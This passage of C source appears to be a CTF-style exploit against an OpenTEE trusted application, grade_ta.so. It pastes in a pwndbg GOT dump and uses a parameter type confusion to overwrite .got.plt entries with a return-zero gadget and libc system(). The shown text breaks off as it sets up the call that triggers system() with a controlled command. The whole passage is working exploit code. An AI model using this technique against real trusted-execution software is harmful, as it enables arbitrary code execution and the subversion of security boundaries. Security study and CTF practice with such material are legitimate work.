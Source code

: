 ```c
  printf("Found grade_ta.so base: 0x%lx\n", grade_ta_base);
  printf(" [*] getRandomByte@.got.plt: 0x%lx\n", grade_ta_getRandomByte_got_plt);

  uint64_t ret_0_gadget = grade_ta_base + 0x1284; // xor eax, eax; ret;
  
  /*
pwndbg> got -p grade_ta.so
Filtering by lib/objfile path: grade_ta.so
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /opt/OpenTee/lib/TAs/grade_ta.so:
GOT protection: Partial RELRO | Found 11 GOT entries passing the filter
[0x7fc313278018] TEE_CheckMemoryAccessRights -> 0x7fc313028d30 (TEE_CheckMemoryAccessRights) ◂— endbr64
[0x7fc313278020] getRandomByte -> 0x7fc313275260 (getRandomByte) ◂— endbr64
[0x7fc313278028] __stack_chk_fail@GLIBC_2.4 -> 0x7fc313182360 (__stack_chk_fail) ◂— endbr64
[0x7fc313278030] printf@GLIBC_2.2.5 -> 0x7fc3130ac6f0 (printf) ◂— endbr64
[0x7fc313278038] TEE_MemMove -> 0x7fc313028f10 (TEE_MemMove) ◂— endbr64
[0x7fc313278040] TEE_AllocateOperation -> 0x7fc3130320b0 (TEE_AllocateOperation) ◂— endbr64
[0x7fc313278048] __syslog_chk@GLIBC_2.4 -> 0x7fc31316a2e0 (__syslog_chk) ◂— endbr64
[0x7fc313278050] TEE_DigestUpdate -> 0x7fc31302c190 (TEE_DigestUpdate) ◂— endbr64
[0x7fc313278058] calculate_signature -> 0x7fc313275300 (calculate_signature) ◂— endbr64
[0x7fc313278060] TEE_DigestDoFinal -> 0x7fc31302c280 (TEE_DigestDoFinal) ◂— endbr64
[0x7fc313278068] rand@GLIBC_2.2.5 -> 0x7fc313092760 (rand) ◂— endbr64
  */

  //Let's do the arbitrary write
  memset((void *)&operation, 0, sizeof(operation));
  memset(out_mem.buffer, 0, sizeof(struct signedStudent));
  operation.paramTypes = TEEC_PARAM_TYPES(
    TEEC_MEMREF_WHOLE,
    TEEC_VALUE_INPUT, //type confusion
    TEEC_NONE,
    TEEC_NONE
  );
  operation.params[0].memref.parent = &in_mem;
  create_64bit_TEEC_Value(&operation.params[1].value, grade_ta_getRandomByte_got_plt); //destination address

  char *payload = (char*)in_mem.buffer;
  *(uint64_t*)(payload+0x00) = ret_0_gadget; // getRandomByte
  *(uint64_t*)(payload+0x08) = ret_0_gadget; // __stack_chk_fail
  *(uint64_t*)(payload+0x10) = ret_0_gadget; // printf@GLIBC
  *(uint64_t*)(payload+0x18) = libc_system;  // TEE_MemMove
  *(uint64_t*)(payload+0x20) = ret_0_gadget; // TEE_AllocateOperation
  //__syslog_chk@glibc will be trashed by calculate_signature()
  //TEE_DigestUpdate   will be trashed by calculate_signature()
  
  printf("Invoking command SIGN_STUDENT (overwriting .got.plt): \n");
  tee_rv = TEEC_InvokeCommand(&session, SIGN_STUDENT, &operation, NULL);
  if (tee_rv != TEEC_SUCCESS && tee_rv != TEEC_ERROR_SECURITY) {
    printf("TEEC_InvokeCommand failed: 0x%x\n", tee_rv);
    exit(tee_rv);
  }
  printf("res: 0x%x\n", tee_rv);

  //Now, let's trigger system() with our command
  memset((void *)&operation, 0, sizeof(operation));
  operation.paramTypes = TEEC_PARAM_TYPES(
    TEEC_MEMREF_WHOLE,
    TEEC_MEMREF_WHOLE, // we control the contents of the buffer
    TEEC_NONE,
    TEEC_NONE
```